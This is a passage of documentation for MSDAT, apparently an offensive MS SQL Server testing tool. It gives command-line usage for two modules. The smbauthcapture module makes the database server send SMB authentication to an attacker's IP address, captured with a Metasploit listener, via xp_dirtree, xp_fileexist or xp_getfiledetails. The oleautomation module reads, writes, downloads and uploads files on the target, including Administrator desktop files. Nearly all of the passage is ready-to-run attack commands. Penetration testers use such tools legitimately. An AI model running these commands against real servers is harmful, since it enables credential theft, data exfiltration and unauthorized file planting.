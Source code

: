 *smbauthcapture* module
---

Thanks to this module, you can capture a SMB authentication:
```bash
./msdat.py smbauthcapture -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --capture $MY_IP_ADDRESS --share-name SHARE
```

To capture the SMB authentication, the *auxiliary/server/capture/smb* ([http://www.rapid7.com/db/modules/auxiliary/server/capture/smb](http://www.rapid7.com/db/modules/auxiliary/server/capture/smb)) module of metasploit could be used:
```bash
msf > use auxiliary/server/capture/smb
msf auxiliary(smb) > exploit
```

The *__capture__* command of this module tries to capture a SMB authentication thanks to *xp_dirtree*, *xp_fileexist* or *xp-getfiledetails* procedure.

If you want to choose the SMB authentication procedure to capture the authentication:
```bash
./msdat.py smbauthcapture -s $SERVER -p $PORT -U $USER -P $PASSWORD --xp-dirtree-capture 127.0.0.1
./msdat.py smbauthcapture -s $SERVER -p $PORT -U $USER -P $PASSWORD --xp-fileexist-capture 127.0.0.1
./msdat.py smbauthcapture -s $SERVER -p $PORT -U $USER -P $PASSWORD --xp-getfiledetails-capture 127.0.0.1
```

You can change the SHARE name with the *--share-name* option.

*oleautomation* module
---

This module can be used to read/write file in the database server.

The following command read the file *temp.txt* stored in the database server:
```bash
./msdat.py oleautomation -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --read-file 'C:\Users\Administrator\Desktop\temp.txt'
```

To write a string in a file (*temp.txt*) remotely:
```bash
./msdat.py oleautomation -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --write-file 'C:\Users\Administrator\Desktop\temp.txt' 'a\nb\nc\nd\ne\nf'
```

This module can be used to download a file (*C:\Users\Administrator\Desktop\temp.txt*) stored on the database server:
```bash
./msdat.py oleautomation -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --get-file 'C:\Users\Administrator\Desktop\temp.txt' temp.txt
```

Also, you can use this module to upload a file (*temp.txt*) on the target:
```bash
./msdat.py oleautomation -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --put-file temp.txt 'C:\Users\Administrator\Desktop\temp.txt
```
